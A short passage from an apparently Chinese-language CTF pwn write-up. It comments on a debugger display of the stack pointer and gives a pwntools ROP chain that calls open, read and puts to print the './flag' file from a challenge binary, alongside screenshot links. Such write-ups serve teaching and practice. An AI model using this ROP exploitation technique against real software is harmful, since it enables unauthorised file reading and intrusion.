 [![](assets/1708654729-0ea0e67bfe213003759d513fc002b3bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011856-20d482ae-d014-1.png)  
需要注意的是上面的 rsp 位置显示的是不正确的 (0x404200-->'./flag')，这里直接跑到下面去下断点，然后调试就可以看出来

```bash
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)
s(pl)
```

[![](assets/1708654729-dc9fd523542cf07f96aefe458c8065a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011910-293604ae-d014-1.png)
